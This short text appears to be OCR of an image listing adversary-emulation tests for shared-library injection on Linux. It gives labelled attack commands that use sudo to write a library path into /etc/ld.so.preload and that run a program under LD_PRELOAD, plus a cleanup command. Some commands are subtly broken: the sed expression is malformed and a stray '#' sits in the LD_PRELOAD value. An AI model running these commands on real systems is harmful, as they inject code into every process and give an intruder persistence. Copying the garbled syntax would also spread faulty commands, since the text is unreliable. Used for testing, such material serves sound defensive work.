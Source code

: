 1. Shared Library Injection via /etc/ld.so.preload  
Attack Commands:  
sudo sh -c 'echo /tmp/inject_lib.so > /etc/ld.so.preload'  
Cleanup Commands:  
sudo sed -i 's##/tmp/inject_lib.so##' /etc/ld.so.preload  
  
2. Shared Library Injection via LD_PRELOAD  
Attack Commands:  
LD_PRELOAD=#/tmp/inject_lib.so ls  
